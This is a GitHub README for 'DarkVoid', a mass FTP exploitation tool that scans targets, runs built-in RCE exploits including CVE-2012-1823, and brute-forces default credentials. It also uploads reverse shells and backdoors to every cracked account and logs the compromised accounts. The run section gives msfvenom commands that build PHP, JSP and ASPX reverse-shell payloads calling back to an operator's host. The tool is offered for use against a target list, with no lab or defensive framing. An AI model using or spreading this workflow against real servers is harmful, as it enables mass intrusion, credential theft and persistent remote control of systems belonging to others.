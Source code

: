 
████████▄     ▄████████    ▄████████    ▄█   ▄█▄       ▄█    █▄   ▄██████▄   ▄█  ████████▄  
███   ▀███   ███    ███   ███    ███   ███ ▄███▀      ███    ███ ███    ███ ███  ███   ▀███ 
███    ███   ███    ███   ███    ███   ███▐██▀        ███    ███ ███    ███ ███▌ ███    ███ 
███    ███   ███    ███  ▄███▄▄▄▄██▀  ▄█████▀         ███    ███ ███    ███ ███▌ ███    ███ 
███    ███ ▀███████████ ▀▀███▀▀▀▀▀   ▀▀█████▄         ███    ███ ███    ███ ███▌ ███    ███ 
███    ███   ███    ███ ▀███████████   ███▐██▄        ███    ███ ███    ███ ███  ███    ███ 
███   ▄███   ███    ███   ███    ███   ███ ▀███▄      ███    ███ ███    ███ ███  ███   ▄███ 
████████▀    ███    █▀    ███    ███   ███   ▀█▀       ▀██████▀   ▀██████▀  █▀   ████████▀ V1.2

<img src="https://github.com/darkseid-security/DarkVoid/blob/main/IMG/Screenshot%20at%202022-12-04%2005-17-11.png">

Mass FTP exploitation tool, automates vulnerbility scanning and exploiting FTP servers.

Features:
- Detects FTP service version and alerts you if server is vulnerable to RCE(Remote Code Execution)
- Automatic exploitation
- Built in exploits
- Tries anonymous login
- Tries to upload a shell if anonymous login is successful
- Bruteforce default creds
- If bruteforce is successful program will try and upload a reverse shell through FTP for every cracked account
- Logs cracked user accounts and compromise FTP server via backdoor shell
- [*New Feature] Identifies webserver version and serves payload based on accepted webserver file types
- [*New Feature] Updated UI design
- [*New Feature] Added CVE-2012-1823 

Supports:
- All operating systems running python enviroment
- Exploit support for Pureftp,Proftp and vsFTP
- Exploits for Windows and Linux

TODO:
- Add more exploits
- Test proFTPD 1.3.2rc3 exploit 

Run 
==============
Add targets to Files/targets.txt
Generate payloads in DarkVoid directory before running scipt

msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php Create a JSP reverse shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp Create a ASPX reverse shell
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f aspx > shell.aspx

